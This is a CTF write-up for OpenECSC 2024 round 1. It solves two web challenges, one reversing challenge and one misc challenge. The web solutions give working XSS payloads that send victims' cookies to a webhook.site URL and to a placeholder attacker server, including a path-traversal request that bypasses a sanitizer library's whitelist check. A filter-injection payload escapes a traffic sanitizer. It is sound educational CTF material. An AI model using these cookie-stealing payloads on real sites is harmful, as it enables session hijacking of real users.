 # OpenECSC 2024 round 1
https://github.com/ECSC2024/openECSC-2024 <br>
https://open.ecsc2024.it/

### Index
- [Web](#web)
    - [Fileshare](#chal1)
    - [Perfectshop](#chal2)
- [Reversing](#Reversing)
    - [fsvm1](#chal1)
- [Misc](#misc)
    - [Cablefish](#misc1)



# Web

## Fileshare
You can now share your files for free thanks to our new disruptive technology! <br>
Site: https://fileshare.challs.open.ecsc2024.it

### Solution

This challenge consists of a classic XSS (Cross Site Scripting) vulnerability. <br>
You are able to upload files and the goal is to get clients to execute a javascript payload, which steals their cookies. <br>
A headless rabbitmq chrome browser, containing the flag as a cookie, is used to simulate that client. You call it by sending a request to support.php.<br>

The Sanitization of the mimetype of the file uploaded is done poorly, it is possible to upload various malicious mimetypes such as application/xml, application/svg, etc. <br>
```php
// upload.php

// sanitize mimetype to not allow "h" letter
$type = $_FILES["file"]["type"];  // mime type of the file, not checked by php
// I don't like the letter 'h'
if ($type == "" || preg_match("/h/i", $type) == 1){    // empty or contains 'h'
    $type = "text/plain";
}

```

When downloading a file, the server adds the mimetype and reads the file and writes it to the output buffer using readfile(). <br>
```php
// download.php

if ($row) {
    $path = "/uploads/$id";
    header('Content-Type: '. $row['content_type']);

    // reads a file and writes it to the output buffer.
    readfile($path);
} else {
    header('Location: /');
}
```

My solution uses the application/xml mimetype to upload a xml file containing a javascript payload. This payload then sends the victims cookies to a server the attacker controll<br>
```javascript
Content-Type: application/xml

<script xmlns="http://www.w3.org/1999/xhtml"><![CDATA[
var message = document.cookie;
document.location="https://webhook.site/1425f028-434d-494f-8e2c-d308787ccebe/?c="+message;
]]></script>
```


## Perfectshop
Do you like perfect things? Check out my new online shop! <br>
Site: http://perfectshop.challs.open.ecsc2024.it

### Solution

To solve Perfectshop you need to craft a payload containing Path Traversal, XSS and using a 0day in an dependency used. <br>


The App utilizes the perfect-express-sanitizer middleware to sanitize every request for Cross Site Scripting, except requests going to the whitelisted /admin endpoint. <br>
Repository of sanitizer middleware: https://github.com/pariazar/perfect-express-sanitizer
```javascript
const sanitizer = require("perfect-express-sanitizer");
app.use(sanitizer.clean({ xss: true }, ["/admin"]));
```

The Sanitizer Middleware cointains a flaw, when checking for requests going to whitelisted endpoints. <br>
Commit fixing the 0day: https://github.com/pariazar/perfect-express-sanitizer/commit/32ff0f08c74bb4fa6224acff06ebbc3b869f16f5
```javascript
// it should be checking if the url starts with the whitelisted endpoint, not if it contains it.
if (req[k] && !whiteList.some((v) => req.url.trim().includes(v))) {
if (req[k] && !whiteList.some((v) => req.url.trim().startsWith(v))) {   // fixed version
```


It is important to include "/admin" in the URL and the body of the request, to prevent the sanitizer from cleaning the payload. <br>
First the payload uses a simple Path Traversal to access the /search endpoint, to be able to execute the reflected XSS vulnerability. <br>
Then the payload loads a script from the attackers server, which sends the cookies to the attacker. This is done to bypass the search query limit of 50 characters.<br>
#### Payload
```http
POST /report?q=/admin HTTP/1.1
id=3../../../search?q=<script%20src="http://<attackers_server>"></script>&message=as/admin
```
#### Payload Script on Attackers Server
```javascript
fetch('http://<attackers_server>/${document.cookie}')
```


# Reversing

## fsvm1
I want this VM to generate a good description, but all I get is "no".

### Solution

Fsvm1 is a reversing challenge with VM-based obfuscation.<br>
Normally the goal would be to write a disassembler, which provides pseudo disassembly code of the bytecode. <br>
Luckily the virtual registers are implemented using files, which gives the possibility to monitor the filesystem for changes. When done, the flag is obtained as an ASCII encoded string of numbers.<br>

```bash
while inotifywait -e close_write -r regs/; do 
cat regs/*
done
```
```bash
regs/ CLOSE_WRITE,CLOSE reg0
1251111flag:0regs/ CLOSE_WRITE,CLOSE reg0
61flag:05210014000regs/ CLOSE_WRITE,CLOSE reg2
0121flag:052101565599521001400000000regs/ CLOSE_WRITE,CLOSE reg2
01211211flag:012111810999521015655995210014000000000000regs/ CLOSE_WRITE,CLOSE reg2
01011flag:011410197115121118109995210156559952100140000000000000000regs/ CLOSE_WRITE,CLOSE reg1
121flag:0115117112101114101971151211181099952101565599521001400000000000000000000regs/ CLOSE_WRITE,CLOSE reg2
691flag:06783671231151171121011141019711512111810999521015655995210014000000000000000000000000regs/ CLOSE_WRITE,CLOSE reg1
1111110flag:0111111210111069678367123115117112101114101971151211181099952101565599521001400000000000000000000000000000 
```

# Misc

## Cablefish
Welcome to our platform! Here you can do traffic analysis via TCP, isn't it awesome? <br>
Just specify your filter, we will sanitize it (we want to make sure no sensitive data will be leaked) and you will be given the traffic! <br>
This is a remote challenge, you can connect with: <br>
nc cablefish.challs.open.ecsc2024.it 38005 <br>

### Solution

when connecting you are able to specify a filter, the filter will be sanitized and then used to filter the traffic. <br>
the goal is to escape the sanitization to get the flag. <br>

```python
# sanitization filter:
filter = filter[:50]
sanitized_filter = f'(({filter}) and (not frame contains "flag_placeholder"))'

# payload: frame contains "flag_placeholder") or not (tcp

```



<img src="cablefish_flag.png" alt="cablefish_flag.png" width="600"/>

